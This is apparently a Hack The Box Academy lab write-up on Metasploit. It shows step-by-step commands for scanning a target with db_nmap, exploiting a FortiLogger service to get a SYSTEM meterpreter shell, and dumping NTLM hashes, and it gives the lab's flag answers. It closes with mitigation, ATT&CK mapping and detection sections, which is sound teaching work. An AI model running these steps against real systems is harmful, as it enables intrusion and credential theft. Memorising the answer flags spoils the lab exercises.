
*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### Meterpreter

> **Lab Question (Page 15)**: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?
>
> **Flag / Answer**: `NT AUTHORITY\SYSTEM`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

time to use a new technique – use Nmap within Metasploit.
We will use the service 'postgresql' , lets see its current status:
```bash
sudo service postgresql status
```


Its inactive, lets start it:
```bash
sudo systemctl start postgresql
```


Now that it is running, lets initiliaze the msf-database:
```bash
sudo msfdb init
```


*
*


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


*_Figure 15.4 — Lab execution and output verification (Page 15)_*


### Now that the msf-database – lets run it

Now that the msf-database – lets run it:
```bash
sudo msfdb run
```


*
*

Now we have Metasploit console, equipped with the msf-database which is
capable to run nmap scan and store it.

The advantage of nmap within Metasploit over regular nmap – is that
Metasploit saves the captured services for further investigation.
(of course it isn't necessary, and we can look manually the nmap results for
```bash
exploits to test on metasploit, but it is a nice feature)
```

Anyway, lets run the scan:
db_nmap -sV -p- -T5 -A <target-IP>


*
*


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


*_Figure 16.4 — Lab execution and output verification (Page 16)_*


### saved in the msf-database,  lets take a look

We don't really need to look at the nmap scan result, as all of the results are
saved in the msf-database,  lets take a look:
services


There are several services, we go for the IIS service ('Internet Information
Services' – basically windows apache/nginx). Lets open it in the browser:

The website is 'FortiLogger' web logger . Lets see if it has any vulnerabilities:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### Lets set the attacker machine and target machine

search FortiLogger


It does, it has one only which narrows down our selection space:
```bash
use 0
```


Lets set the attacker machine and target machine:
```bash
set RHOSTS <target-IP>
set LHOST <attacker-IP>
```
run


And we have a shell! Lets see what is our user

Its system!


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


*_Figure 18.4 — Lab execution and output verification (Page 18)_*


> **Lab Question (Page 19)**: Retrieve the NTLM password hash for the "htb-student" user . Submit the hash as the answer .
>
> **Flag / Answer**: `cf3a5525ee9414229e66279623ed5c58`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the established meterpreter session – lets dump the hash:
hashdump


We go for the 4th line – 'htb-student', and take the last hash (separated with
colon).


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1059, T1021` |
| **Common Weakness Enumerations** | `CWE-1035` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Executing pre-compiled exploits against remote daemons |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Deploying Meterpreter stages and executing interactive commands |
| [`T1021`](https://attack.mitre.org/techniques/T1021/) | **Remote Services** | `Lateral Movement` | Using PsExec and auxiliary login modules to pivot |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-1035`: Vulnerability Exploitation Framework](https://cwe.mitre.org/data/definitions/1035.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor network traffic for known Meterpreter default communication patterns and TLS certificate fingerprints.
- Sysmon Event ID 1: Alert on processes spawning from abnormal binaries or executing typical Meterpreter migration targets (`explorer.exe`, `svchost.exe`).
- Keep systems patched against known CVEs indexed in the Metasploit module repository.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Using the Metasploit Framework](https://academy.hackthebox.com/module/39) — *Official Hack The Box curriculum track*
- [Metasploit Unleashed (Offensive Security)](https://www.offensive-security.com/metasploit-unleashed/) — *Free comprehensive Metasploit training guide*
- [Rapid7 Metasploit Documentation](https://docs.rapid7.com/metasploit/) — *Official Rapid7 documentation*
- [Metasploit Framework GitHub Repository](https://github.com/rapid7/metasploit-framework) — *Source code and module contributions*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-32-cracking-passwords-with-hashcat/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 32: Cracking Passwords with Hashcat</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 33 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-34-using-crackmapexec/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 34: Using CrackMapExec for Active Directory Dominance</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
